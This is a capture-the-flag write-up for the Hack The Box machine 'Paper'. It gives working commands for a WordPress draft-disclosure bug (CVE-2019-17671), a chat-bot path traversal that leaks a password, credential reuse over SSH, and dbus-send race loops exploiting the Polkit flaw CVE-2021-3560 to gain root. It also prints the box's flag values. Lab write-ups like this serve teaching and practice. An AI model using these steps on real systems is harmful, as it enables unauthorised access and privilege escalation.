

+++
title = "Paper"
date = "2023-12-16"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2022-02-05

**Created by**: [secnigma](https://app.hackthebox.com/users/92926)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `‚ùØ` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.143`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Paper using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
‚ùØ nmap -sS "10.10.11.143" -p-
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
‚ùØ nmap -sU "10.10.11.143" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
‚ùØ nmap -sS "10.10.11.143" -p "22,80,443" -sV
```

```
<SNIP>
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
<SNIP>
```

The version of Apache suggests that Paper might be running CentOS.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
‚ùØ nmap -sS "10.10.11.143" -p "22,80,443" -sC
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  https
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| http-methods: 
|_  Potentially risky methods: TRACE
<SNIP>
```

## Services enumeration

### Apache

#### Exploration

Let's browse to `http://10.10.11.143/`.


It's the default installation page for Apache on CentOS.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


If we check the HTTP headers of the response, we also find a `X-Backend-Server`
header set to `office.paper`.

If we search online for this HTTP header, we find:

> The target website returns the `X-Backend-Server` header which includes
> potentially internal/hidden IP addresses or hostnames.
>
> — [GitLab](https://docs.gitlab.com/ee/user/application_security/dast/checks/16.4.html)

Apparently, some proxy/load balancer providers reveal the `X-Backend-Server`
header value by default, which discloses the IP or the hostname of the target
website.

In this case, this reveals that there's an `office.paper` subdomain! I'll add it
to my `/etc/hosts` file.

```sh
‚ùØ echo "10.10.11.143 office.paper" >> "/etc/hosts"
```

#### Exploration

Let's browse to `http://office.paper/`:


Apparently, it's a blog for 'Blunder Tiffinc Inc.', the 'best paper company in
the eletric-city Scranton'.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this web page is using PHP version `7.2.24`, MySQL and
WordPress version `5.2.3`.

#### WordPress

Let's use `wpscan` to enumerate WordPress:

```sh
‚ùØ wpscan --url "http://office.paper/" -e
```

```
<SNIP>
[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.paper/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-04).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>

[+] WordPress theme in use: construction-techup
 | Location: http://office.paper/wp-content/themes/construction-techup/
 | Last Updated: 2022-09-22T00:00:00.000Z
 | Readme: http://office.paper/wp-content/themes/construction-techup/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | Style URL: http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1
 | Style Name: Construction Techup
 | Description: Construction Techup is child theme of Techup a Free WordPress Theme useful for Business, corporate a...
 | Author: wptexture
 | Author URI: https://testerwp.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:03 <============================================================================================================================================================> (652 / 652) 100.00% Time: 00:00:03
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:16 <==========================================================================================================================================================> (2575 / 2575) 100.00% Time: 00:00:16

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <===================================================================================================================================================================> (75 / 75) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:13 <========================================================================================================================================================> (100 / 100) 100.00% Time: 00:00:13

[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:04 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:04

[i] User(s) Identified:

[+] prisonmike
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] nick
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] creedthoughts
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
<SNIP>
```

#### Exploration

There's a few blog posts written by `Prisonmike`: in the first one he declares
that he added all of his friends on this blog, and in the last one he says that
`Jan` forced him to remove all of them.

In the last blog post, `nick` also posted a comment to report to Michael
(`Prisonmike`) that he should remove the secrets in his drafts.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `Wordpress 5.2.3`, we
find
[WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts](https://www.exploit-db.com/exploits/47690)
([CVE-2019-17671](https://nvd.nist.gov/vuln/detail/CVE-2019-17671)).

Since we know that Michael has secrets in his drafts, this might give us
critical information!

#### Retrieving the WordPress drafts

[CVE-2019-17671](https://nvd.nist.gov/vuln/detail/CVE-2019-17671) is an
information disclosure vulnerability affecting WordPress versions up to `5.2.3`
allowing unauthenticated users to view certain content that should be
restricted, like drafts and password protected blog posts. The vulnerability
arises from an improper handling of the `static` HTTP GET parameter.

Your can read more about it on
[0day](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/).

In fact, it's extremely simple to exploit this vulnerability: we simply have to
browse to `http://office.paper/?static=1`.


Apparently, the users were removed from this website for security reasons. It
was a public blog, so the higher officials preferred migrating to a private chat
system.

There's also a 'Secret Registration URL of new Employee chat system':
`http://chat.office.paper/register/8qozr226AhkCHZdyY`. That's interesting! The
`chat.office.paper` subdomain is new. I'll add it to my `/etc/hosts` file.

```sh
‚ùØ echo "10.10.11.143 chat.office.paper" >> "/etc/hosts"
```

We can also see that Nick is once again blaming Michael for saving secrets in
drafts files, but Michael thinks that 'unpublished drafts cannot be accessed by
outsiders', so that it's alright.

#### Exploration

Let's browse to `http://chat.office.paper/`:


This is an instance of [Rocket.Chat](https://www.rocket.chat/). This must be the
'private chat system' mentioned earlier!

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


This reveals that this web page is using Node.js and MongoDB.

#### Exploration

The homepage indicates that registrations 'can only be done using the secret
registration URL'. Luckily, we got that URL thanks to Michael's drafts!

If we enter it, we can create an account.


I'll create a fake account with the username `dummy`.


We only have access to a single channel, `#general`. Let's see what it contains.


If we scroll up the history of messages, we see the mention of a `recyclops` bot
that we can use to retrieve the content of files in the `Sales` folder.

The problem is that this channel is read-only. But if we read carefully the
messages, `kellylikescupcakes` mentions that we can interact with it through
direct messages!

I'll send him a `help` message:

```
Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.

Most frequently asked questions include:
- What time is it?
- What new files are in your sale directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.

Please note that I am a beta version and I still have some bugs to be fixed.

How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?

2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'

<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>

For security reasons, the access is limited to the Sales folder.

3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file sale/secret.xls' or just 'recyclops file test.txt'

4. List:
You can ask me to list the files
eg: 'recyclops i need directory list sale' or just 'recyclops list sale'

5. Time:
You can ask me what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'

That's what I am capable of doing right now.
Also, Dwight is a cool guy and not a Time Thief!
```

This is the same message we saw on the `#general` channel.

I'll send `list` this time:

```
Fetching the directory listing of /sales/ 

total 8
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
drwx------ 11 dwight dwight 4096 Mar 8 03:48 ..
drwxr-xr-x 2 dwight dwight 27 Sep 15 2021 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```

It looks like the output of the `ls -la` command.

Let's try to enter a non existent folder after `list`:

```
Fetching the directory listing of nonExistent

ls: cannot access '/home/dwight/sales/nonExistent': No such file or directory 
```

The error message discloses that this bot reads the content of the
`/home/dwight/sales` folder, and that whatever we pass him as arguments gets
appended after to this path.

#### LFI

Since we can give `recyclops` arguments that are appended to the
`/home/dwight/sales` path and used for `ls`, it may be vulnerable to path
traversal!

Let's check if this is the case by sending the bot a `list ../` message:

```
Fetching the directory listing of ../

total 32604
drwx------ 11 dwight dwight 4096 Mar 8 03:48 .
drwxr-xr-x. 3 root root 20 Mar 8 03:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 9 Jan 22 06:26 .dbshell
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 3 dwight dwight 69 Jan 22 06:27 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
-rw-rw-r-- 1 dwight dwight 6571921 Feb 26 14:57 linpeas_fat.sh
-rw-rw-r-- 1 dwight dwight 26641089 Feb 26 14:57 linpeas_fat.sh.1
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
-rwxrwxr-x 1 dwight dwight 9627 Mar 8 03:46 poc.sh
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 Jan 22 05:53 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
-rw------- 1 dwight dwight 1124 Mar 8 03:40 .viminfo
-rw-rw-r-- 1 dwight dwight 105322 Mar 8 03:32 wget-log
```

It returns the content of the `/home/dwight` folder, `dwight`'s home folder! We
got ourselves a LFI here.

#### Inspecting `/home/dwight/bot_restart.sh`

The most intriguing file to me in `dwight`'s home folder is the `bot_restart.sh`
file, so let's inspect it by sending the bot the `file ../bot_restart.sh`
message.

```sh
#!/bin/bash

# Cleaning hubot's log so that it won't grow too large.
echo "" >/home/dwight/hubot/.hubot.log

# For starting the bot 20-ish (10+20) seconds late, when the server is restarted.
# This is because MongoDB and Rocket-Chat server needs some time to startup properly
sleep 10s

# Checks if Hubot is running every 10s
while [ 1 ]; do
    sleep 20s
    alive=$(/usr/sbin/ss -tulnp | grep 8000)
    if [[ -n $alive ]]; then
        err=$(grep -i 'unhandled-rejections=strict' /home/dwight/hubot/.hubot.log)
        if [[ -n $err ]]; then
            # Restarts bot
            echo "[-] Bot not running! $(date)"
            #Killing the old process
            pid=$(ps aux | grep -i 'hubot -a rocketchat' | grep -v grep | cut -d " " -f6)
            kill -9 $pid
            cd /home/dwight/hubot
            # Cleaning hubot's log so that it won't grow too large.
            echo "" >/home/dwight/hubot/.hubot.log
            bash /home/dwight/hubot/start_bot.sh &
        else

            echo "[+] Bot running succesfully! $(date)"
        fi

    else
        # Restarts bot
        echo "[-] Bot not running! $(date)"
        #Killing the old process
        pid=$(ps aux | grep -i 'hubot -a rocketchat' | grep -v grep | cut -d " " -f6)
        kill -9 $pid
        cd /home/dwight/hubot
        bash /home/dwight/hubot/start_bot.sh &
    fi

done
```

This Bash script basically kills the bot process, cleans up the log file, and
launches the `/home/dwight/hubot/start_bot.sh` file, probably to start the bot.

Interestingly, the launch script and log file are stored in the `hubot` folder
in `/home/dwight`. That's really intriguing, I've never heard of this technology
before, so let's check it up online:

> Hubot is your friendly robot sidekick. Install him in your company to
> dramatically improve employee efficiency.
>
> — [Hubot](https://hubot.github.com/)

That's what `recyclops` is using under the hood! It must contain interesting
information, let's explore the `hubot` folder.

#### Exploring `/home/dwight/hubot`

Let's use the bot `list` command to check this folder content.

```
Fetching the directory listing of ../hubot

total 152
drwx------ 8 dwight dwight 4096 Sep 16 2021 .
drwx------ 11 dwight dwight 4096 Mar 8 03:48 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 2021 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 2021 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 24772 Mar 17 05:20 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 2021 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 2021 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 2022 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock
```

It contains a bunch of files, including Git-related and VScode-related files.

However, I immediately noticed the `.env` file, since this type of file is
usually used to store secrets... Let's retrieve its content!

```
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

Bingo! It contains a few secrets variables, and one is named
`ROCKETCHAT_PASSWORD`! Its value is set to `Queenofblad3s!23`.

#### Exploration

If we try to log in to [Rocket.Chat](https://www.rocket.chat/) as `recyclops`
with the password we just found, we get an error message indicating that bots
can't log in.

## Foothold (SSH)

The source code of this bot was located in `dwight`'s home folder, so he's
likely the author of it, meaning that the bot's password might also be his!
Let's check if this is the case.

```sh
‚ùØ ssh "dwight@10.10.11.143"
```

```
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
<SNIP>
dwight@10.10.11.143's password:
<SNIP>
[dwight@paper ~]$
```

Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `dwight` (obviously).

### Architecture

What is Paper's architecture?

```sh
[dwight@paper ~]$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Paper is using.

```sh
[dwight@paper ~]$ cat "/etc/os-release"
```

```
NAME="CentOS Linux"
VERSION="8"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="8"
PLATFORM_ID="platform:el8"
PRETTY_NAME="CentOS Linux 8"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:8"
HOME_URL="https://centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-8"
CENTOS_MANTISBT_PROJECT_VERSION="8"
```

Okay, so it's CentOS 8.

### Kernel

Let's find the kernel version of Paper.

```sh
[dwight@paper ~]$ uname -r
```

```
4.18.0-348.7.1.el8_5.x86_64
```

It's `4.18.0`.

### Users

Let's enumerate all users.

```sh
[dwight@paper ~]$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
dwight
rocketchat
root
```

There's `dwight` (us), `rocketchat` and `root`.

### Groups

Let's enumerate all groups.

```sh
[dwight@paper ~]$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
apache
audio
avahi
bin
brlapi
cdrom
chrony
clevis
cockpit-ws
colord
daemon
dbus
dialout
disk
dnsmasq
dwight
floppy
ftp
games
gdm
geoclue
gluster
gnome-initial-setup
input
insights
kmem
kvm
libstoragemgmt
libvirt
lock
lp
mail
man
mem
mongod
mysql
nginx
nobody
pegasus
pipewire
polkitd
printadmin
pulse
pulse-access
pulse-rt
qemu
radvd
render
rocketchat
root
rpc
rpcuser
rtkit
saslauth
setroubleshoot
slocate
ssh_keys
sshd
sssd
sys
systemd-coredump
systemd-journal
systemd-resolve
tape
tcpdump
tss
tty
unbound
usbmuxd
users
utempter
utmp
video
wheel
```

### NICs

Let's gather the list of connected NICs.

```sh
[dwight@paper ~]$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.143  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:da16  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:da16  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:da:16  txqueuelen 1000  (Ethernet)
        RX packets 1465889  bytes 214474665 (204.5 MiB)
        RX errors 0  dropped 27851  overruns 0  frame 0
        TX packets 129702  bytes 37944096 (36.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 41183994  bytes 7736913664 (7.2 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 41183994  bytes 7736913664 (7.2 GiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

virbr0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 192.168.122.1  netmask 255.255.255.0  broadcast 192.168.122.255
        ether 52:54:00:9b:e7:f7  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface, the loopback interface and a virtual bridge for
QEMU.

### Hostname

What is Paper's hostname?

```sh
[dwight@paper ~]$ hostname
```

```
paper
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
[dwight@paper ~]$ cat "/home/dwight/user.txt"
```

```
6e1587b2ba8c18faf177a08f24c2f901
```

### Home folders

If we explore our home folder, we notice a `poc.sh` file.

```sh
<SNIP>
echo "CVE-2021-3560 Polkit v0.105-26 Linux Privilege Escalation PoC by SecNigma"
<SNIP>
```

It's a PoC for the
[CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560) written by the
author of this box... It has to be a hint!

## Privilege escalation ([CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560))

[CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560) is a
vulnerability in Polkit versions prior to `0.119`, a system authorization
framework that allows applications to ask for permission to perform actions that
require elevated privileges, mainly used on Linux. The vulnerability lies in
Polkit's handling of D-Bus requests, a message bus system that allows
applications to communicate with each other. When an application makes a D-Bus
request to Polkit, Polkit checks the requester's credentials to determine
whether they have the necessary permissions. However, Polkit can be tricked into
bypassing the credential checks for D-Bus requests. An attacker can craft a
D-Bus request that appears to come from a trusted application, such as the
user's desktop environment, which would grant him `root` privileges on the
system.

You can read more about it on
[GitHub's blog](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).

### Checks

Let's check the version of Polkit installed on Paper.

```sh
[dwight@paper ~]$ rpm -qa | grep "polkit"
```

```
polkit-0.115-6.el8.x86_64
polkit-pkla-compat-0.1-12.el8.x86_64
polkit-libs-0.115-6.el8.x86_64
```

According to the output of this command, Polkit version `0.115` is installed, so
it should be vulnerable to this CVE!

### Preparation

The box provides us with a `poc.sh` file to exploit it. I tried to exploit this
CVE manually but it failed, so I'll use it.

This script exploits this CVE to create a new user. Therefore, the goal will be
to create a `dummy` user with the `5up3rdup3r53cr37p455w0rd!` password.

However we need a password hash, and not a cleartext password, so let's hash it
with the SHA-512 algorithm:

```sh
‚ùØ openssl passwd -6 '5up3rdup3r53cr37p455w0rd!'
```

```
$6$S7gVDgHvvW/e4oC1$ycineGMsXBwydZJnMTkrgd0IN7mAMhIaB/I80lbsFfg1hoBXpjanYPu3bEYoH04SSEP1WAdBQ560WtVEHRlHP1
```

### Exploitation

Let's send a D-Bus message to create a new user:

```sh
[dwight@paper ~]$ for i in {1..100}; do \
                      dbus-send --system --dest="org.freedesktop.Accounts" --type="method_call" --print-reply "/org/freedesktop/Accounts" "org.freedesktop.Accounts.CreateUser" string:"dummy" string:"Don't mind me!" int32:"1" & \
                      sleep 0.005s; \
                      kill "$!"; \
                  done
```

Our user was successfully created:

```sh
[dwight@paper ~]$ id "dummy"
```

```
uid=1005(dummy) gid=1005(dummy) groups=1005(dummy),10(wheel)
```

Now let's change its password to the SHA-512 hash we generated.

```sh
[dwight@paper ~]$ for i in {1..100}; do \
                      dbus-send --system --dest="org.freedesktop.Accounts" --type="method_call" --print-reply "/org/freedesktop/Accounts/User1005" "org.freedesktop.Accounts.User.SetPassword" string:'$6$S7gVDgHvvW/e4oC1$ycineGMsXBwydZJnMTkrgd0IN7mAMhIaB/I80lbsFfg1hoBXpjanYPu3bEYoH04SSEP1WAdBQ560WtVEHRlHP1' string:"Don't mind me!" & \
                      sleep "0.005s"; \
                      kill "$!"; \
                  done
```

Finally, we can impersonate our new user:

```sh
[dwight@paper ~]$ su - "dummy"
```

```
[dummy@paper dwight]$
```

And then we can get a shell as `root`:

```sh
[dummy@paper dwight]$ sudo "/bin/bash"
```

```
[root@paper dummy]#
```

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to Paper as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
[root@paper ~]# cat "/root/root.txt"
```

```
163d766cda80e3c5639fd6a2d95ec973
```

# Afterwords


That's it for this box! üéâ

I rated the user flag as 'Not too easy' and the root flag as 'Easy'. The
foothold required to identify a valid CVE among several potential ones, and then
to abuse a LFI. It was rather easy overall, albeit a bit long. The privilege
escalation was easy to find thanks to the hint in `dwight`'s home folder, but
really annoying to take advantage of, since the it relied on timings, so I had
to retry it many times.

Thanks for reading!
